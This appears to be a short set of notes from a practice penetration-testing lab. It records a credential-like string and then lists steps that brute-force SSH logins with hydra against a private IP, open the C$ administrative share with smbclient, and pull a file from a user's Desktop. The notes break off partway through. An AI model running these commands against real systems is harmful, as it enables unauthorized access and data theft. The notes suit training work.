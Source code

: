 ![{A0279A4B-F29E-4E62-B2E1-595949B00BE5}.png](Practice%20Engage/A0279A4B-F29E-4E62-B2E1-595949B00BE5.png)

Twofish/@!ph@|tE*t

---

# Step 1: Brute-force SSH credentials

hydra -l martin -P /path/to/password/list.txt ssh://192.168.10.101

# Step 2: Access the SMB share

smbclient [//192.168.10.101/C$](https://192.168.10.101/C$) -U martin

# Step 3: Navigate to the Desktop

cd Users/Martin/Desktop

# Step 4: Retrieve the file

ls
get webpent.txt

# Step 5: Analyze the file

cat webpent.txt

# Step 6: Extract the Meta-Author
